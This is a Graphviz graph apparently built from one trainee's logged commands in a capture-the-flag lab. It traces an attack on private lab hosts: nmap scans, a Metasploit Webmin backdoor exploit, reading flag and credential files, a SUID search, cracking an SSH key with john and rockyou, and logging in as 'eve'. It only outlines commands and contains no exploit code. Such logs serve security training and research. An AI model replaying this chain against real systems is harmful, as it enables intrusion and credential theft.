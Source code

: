 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 A1 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb A15 "]
	18 [label="ls A10 "]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb A4 "]
	25 [label="use exploit/unix/webapp/webmin_backdoor M4 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	40 [label="cat /root/flag A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A9 A11 A12 A17 "]
	43 [label="cat webmin.schema A9 A11 A12 A17 "]
	44 [label="cat help A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A9 A11 A12 A17 "]
	48 [label="cat config A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema A9 A11 A12 A17 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt A11 A12 A17 "]
	81 [label="ls A10 "]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt A11 A12 A17 "]
	85 [label="ls A10 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A11 A12 A17 "]
	100 [label="ls A10 "]
	102 [label="ls A10 "]
	104 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A11 A12 A17 "]
	112 [label="ls A10 "]
	114 [label="ls A10 "]
	117 [label="ls A10 "]
	120 [label="ls A10 "]
	124 [label="ls A10 "]
	126 [label="ls A10 "]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A11 A12 A17 "]
	132 [label="ls A10 "]
	134 [label="ls A10 "]
	136 [label="ls A10 "]
	138 [label="ls A10 "]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A11 A12 A17 "]
	143 [label="ls A10 "]
	146 [label="ls A10 "]
	148 [label="ls A10 "]
	150 [label="ls A10 "]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A11 A12 A17 "]
	156 [label="ls A10 "]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A11 A12 A17 "]
	162 [label="ls A10 "]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A11 A12 A17 "]
	170 [label="ls A10 "]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A11 A12 A17 "]
	181 [label="ls A10 "]
	188 [label="cat .progle A11 A12 A17 "]
	189 [label="ls A10 "]
	193 [label="ls A10 "]
	195 [label="ls A10 "]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	201 [label="ls A10 "]
	203 [label="ls A10 "]
	205 [label="ls A10 "]
	206 [label="cat blocked A12 A17 "]
	209 [label="ls A10 "]
	211 [label="ls A10 "]
	213 [label="ls A10 "]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A12 A17 "]
	221 [label="ls A10 "]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	227 [label="ls A10 "]
	230 [label="ls A10 "]
	231 [label="cat user.log A12 A17 "]
	232 [label="ls A10 "]
	235 [label="ls A10 "]
	238 [label="sls A10 "]
	240 [label="ls A10 "]
	242 [label="ls A10 "]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	247 [label="ls A10 "]
	249 [label="ls A10 "]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	255 [label="ls A10 "]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	262 [label="ls A10 "]
	265 [label="ls A10 "]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 "]
	269 [label="cat id_rsa A17 "]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash A14 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa A17 "]
	281 [label="john hash A14 "]
	283 [label="ls A10 "]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A17 "]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 16 [constraint=false]
	16 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 100 [constraint=false]
	100 -> 102 [constraint=false]
	102 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 114 [constraint=false]
	114 -> 117 [constraint=false]
	117 -> 120 [constraint=false]
	120 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 143 [constraint=false]
	143 -> 146 [constraint=false]
	146 -> 148 [constraint=false]
	148 -> 150 [constraint=false]
	150 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 156 [constraint=false]
	156 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 162 [constraint=false]
	162 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 193 [constraint=false]
	193 -> 195 [constraint=false]
	195 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 201 [constraint=false]
	201 -> 203 [constraint=false]
	203 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 209 [constraint=false]
	209 -> 211 [constraint=false]
	211 -> 213 [constraint=false]
	213 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 227 [constraint=false]
	227 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 235 [constraint=false]
	235 -> 238 [constraint=false]
	238 -> 240 [constraint=false]
	240 -> 242 [constraint=false]
	242 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 247 [constraint=false]
	247 -> 249 [constraint=false]
	249 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 255 [constraint=false]
	255 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 260 [constraint=false]
	260 -> 262 [constraint=false]
	262 -> 265 [constraint=false]
	265 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 283 [constraint=false]
	283 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
